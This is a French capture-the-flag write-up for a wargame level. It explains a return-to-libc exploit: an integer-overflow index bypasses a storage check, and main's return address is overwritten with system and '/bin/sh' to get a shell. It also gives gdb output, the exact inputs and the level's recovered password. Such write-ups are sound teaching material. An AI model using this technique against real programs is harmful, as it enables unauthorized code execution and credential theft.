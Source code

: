 #### Etape 1 : Décompilation

Le programme propose trois instructions :
- store qui permet de spécifier un numéro et un index dans lequel l'enregistrer.
    Si l'index est un multiple de 3 le code empeche de stocker la valeur.
    L'index spécifier est multiplié par 4 avant de stocker la valeur.
- read qui permet le lire le numéro stocké a l'index demandé.
- quit qui quitte le programme via un return.

#### Etape 2 : Objectif

L'idée est de réécrire l'adresse de return de main en stockant l'adresse de la fonction system a la place. 
Et la faire suivre par /bin/sh.

#### Etape 3 : Infos 

Les valeurs sont des %u d'un scanf il faut donc les avoir au format décimal.
L'adresse en décimal de :
- system : 4159090384
- /bin/sh : 4160264172 
Obtenir l'adresse d'écriture et du return de main pour savoir a quel index écrire.
Mettre un break sur le return de main et sur store_number via gdb.
Lire l'adresse d'esp qui pointe vers l'adresse de retour.
```bash
Breakpoint 1, 0x080488ea in main ()
(gdb) x/x $esp
0xffffd530:     0xffffd554
Breakpoint 2, 0x080489f1 in main ()
(gdb) x/x $esp
0xffffd71c:     0xf7e45513
```
On a ainsi obtenu l'adresse à partir de laquelle on écrit : 0xffffd554 et celle à laquelle on souhaite modifier la valeur : 0xffffd71c.
0xffffd71c - 0xffffd554 = 456.
On divise par 4 pour obtenir l'index a entrer dans le programme : 456 / 4 = 114.
Cet index est un multiple de 3 mais il possible d'obtenir 114 en utilisant le dépassement de valeur d'un int: 1073741938 * 4 = 114.

#### Etape 4 : Execution 
```bash
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

